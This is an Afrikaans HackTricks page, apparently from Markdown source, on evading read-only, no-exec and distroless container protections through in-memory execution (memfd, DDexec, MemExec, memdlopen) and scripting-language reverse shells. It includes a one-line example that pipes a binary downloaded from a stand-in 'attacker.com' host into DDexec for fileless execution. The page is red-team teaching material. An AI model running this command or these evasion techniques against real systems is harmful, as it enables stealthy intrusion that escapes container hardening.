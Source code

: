 # Bypass FS beskerming: lees-slegs / geen-uitvoering / Distroless

{{#include ../../../banners/hacktricks-training.md}}


## Video's

In die volgende video's kan jy die tegnieke wat op hierdie bladsy genoem word, meer in diepte verduidelik vind:

- [**DEF CON 31 - Verkenning van Linux Geheue Manipulasie vir Stealth en Ontvlugting**](https://www.youtube.com/watch?v=poHirez8jk4)
- [**Stealth indringings met DDexec-ng & in-geheue dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## lees-slegs / geen-uitvoering scenario

Dit is al hoe meer algemeen om linux masjiene te vind wat gemonteer is met **lees-slegs (ro) lêerstelsel beskerming**, veral in houers. Dit is omdat dit so maklik is om 'n houer met 'n ro lêerstelsel te laat loop deur **`readOnlyRootFilesystem: true`** in die `securitycontext` in te stel:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Maar, selfs al is die lêerstelsel as ro gemonteer, sal **`/dev/shm`** steeds skryfbaar wees, so dit is vals dat ons nie iets op die skyf kan skryf nie. Hierdie gids sal egter **gemonteer wees met geen-uitvoering beskerming**, so as jy 'n binêre hier aflaai, **sal jy dit nie kan uitvoer nie**.

> [!WARNING]
> Vanuit 'n rooi span perspektief, maak dit **moeilik om binêre af te laai en uit te voer** wat nie reeds in die stelsel is nie (soos agterdeure of enumerators soos `kubectl`).

## Eenvoudigste omseiling: Skripte

Let daarop dat ek binêre genoem het, jy kan **enige skrip uitvoer** solank die interpreter binne die masjien is, soos 'n **shell skrip** as `sh` teenwoordig is of 'n **python** **skrip** as `python` geïnstalleer is.

Maar, dit is nie net genoeg om jou binêre agterdeur of ander binêre gereedskap wat jy mag nodig hê om te loop, uit te voer nie.

## Geheue Omseilings

As jy 'n binêre wil uitvoer maar die lêerstelsel dit nie toelaat nie, is die beste manier om dit te doen deur **dit uit geheue uit te voer**, aangesien die **beskermings daar nie van toepassing is nie**.

### FD + exec syscall omseiling

As jy 'n paar kragtige skrip enjin in die masjien het, soos **Python**, **Perl**, of **Ruby**, kan jy die binêre aflaai om uit geheue uit te voer, dit in 'n geheue lêer beskrywer (`create_memfd` syscall) stoor, wat nie deur daardie beskermings beskerm gaan word nie en dan 'n **`exec` syscall** aanroep wat die **fd as die lêer om uit te voer** aandui.

Vir hierdie kan jy maklik die projek [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) gebruik. Jy kan dit 'n binêre gee en dit sal 'n skrip in die aangeduide taal genereer met die **binêre gecomprimeer en b64 geënkodeer** met die instruksies om dit te **dekodeer en te dekomprimeer** in 'n **fd** wat geskep is deur `create_memfd` syscall aan te roep en 'n oproep na die **exec** syscall om dit te laat loop.

> [!WARNING]
> Dit werk nie in ander skrip tale soos PHP of Node nie omdat hulle nie enige d**efault manier het om rou syscalls** vanuit 'n skrip aan te roep nie, so dit is nie moontlik om `create_memfd` aan te roep om die **geheue fd** te skep om die binêre te stoor nie.
>
> Boonop sal die skep van 'n **regte fd** met 'n lêer in `/dev/shm` nie werk nie, aangesien jy nie toegelaat sal word om dit te laat loop nie omdat die **geen-uitvoering beskerming** van toepassing sal wees.

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is 'n tegniek wat jou toelaat om die **geheue van jou eie proses** te modifiseer deur sy **`/proc/self/mem`** te oorskryf.

Daarom, deur **die assembly kode** wat deur die proses uitgevoer word, te beheer, kan jy 'n **shellcode** skryf en die proses "mutate" om **enige arbitrêre kode** uit te voer.

> [!TIP]
> **DDexec / EverythingExec** sal jou toelaat om jou eie **shellcode** of **enige binêre** uit **geheue** te laai en **uit te voer**.
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Vir meer inligting oor hierdie tegniek, kyk na die Github of:

{{#ref}}
ddexec.md
{{#endref}}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) is die natuurlike volgende stap van DDexec. Dit is 'n **DDexec shellcode demonised**, so elke keer wanneer jy 'n **ander binêre** wil **hardloop**, hoef jy nie DDexec weer te herlaai nie, jy kan net memexec shellcode via die DDexec tegniek hardloop en dan **kommunikeer met hierdie demon om nuwe binêre te stuur om te laai en te hardloop**.

Jy kan 'n voorbeeld vind van hoe om **memexec te gebruik om binêre vanaf 'n PHP reverse shell** uit te voer in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Met 'n soortgelyke doel as DDexec, laat die [**memdlopen**](https://github.com/arget13/memdlopen) tegniek 'n **gemakliker manier om binêre** in geheue te laai om later uit te voer. Dit kan selfs toelaat om binêre met afhanklikhede te laai.

## Distroless Bypass

### Wat is distroless

Distroless houers bevat slegs die **minimale komponente wat nodig is om 'n spesifieke toepassing of diens te laat werk**, soos biblioteke en runtime afhanklikhede, maar sluit groter komponente soos 'n pakketbestuurder, skulp of stelseldienste uit.

Die doel van distroless houers is om die **aanvaloppervlak van houers te verminder deur onnodige komponente te verwyder** en die aantal kwesbaarhede wat uitgebuit kan word, te minimaliseer.

### Reverse Shell

In 'n distroless houer mag jy **nie eers `sh` of `bash`** vind om 'n gewone skulp te kry nie. Jy sal ook nie binêre soos `ls`, `whoami`, `id`... vind nie, alles wat jy gewoonlik in 'n stelsel hardloop.

> [!WARNING]
> Daarom, jy **sal nie** in staat wees om 'n **reverse shell** of **te enumerate** die stelsel soos jy gewoonlik doen nie.

As die gecompromitteerde houer egter byvoorbeeld 'n flask web hardloop, dan is python geïnstalleer, en daarom kan jy 'n **Python reverse shell** kry. As dit node hardloop, kan jy 'n Node rev shell kry, en dieselfde met byna enige **scripting taal**.

> [!TIP]
> Deur die scripting taal te gebruik, kan jy **die stelsel enumerate** met behulp van die taal se vermoëns.

As daar **geen `read-only/no-exec`** beskermings is nie, kan jy jou reverse shell misbruik om **in die lêerstelsel jou binêre te skryf** en hulle te **uitvoer**.

> [!TIP]
> egter, in hierdie soort houers sal hierdie beskermings gewoonlik bestaan, maar jy kan die **vorige geheue-uitvoertegnieke gebruik om hulle te omseil**.

Jy kan **voorbeelde** vind van hoe om **sommige RCE kwesbaarhede te exploiteer** om scripting tale **reverse shells** te kry en binêre vanaf geheue uit te voer in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

{{#include ../../../banners/hacktricks-training.md}}

